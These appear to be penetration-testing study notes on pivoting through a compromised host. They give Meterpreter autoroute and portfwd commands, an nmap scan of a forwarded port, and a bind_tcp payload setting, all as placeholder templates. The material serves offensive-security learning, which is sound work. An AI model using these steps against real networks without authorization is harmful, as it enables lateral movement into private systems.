 #windows #linux 

Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host's private internal network.

After gaining access to one host, we can use the compromised host to exploit other hosts on the same internal network to which we could not access previously

Meterpreter provides us with the ability to add a network route to the internal network's subnet and consequently scan and exploit other systems on the network

Add network route to the target subnet
`run autoroute -s <ip_subnet>`

```bash
portfwd add -l <local_port> -p <victim_port> -r <victim_ip>
```

then
```bash
nmap -sS -sCV -p <local_port> localhost
```

then you can config the payload
`set payload windows/meterpreter/bind_tcp`
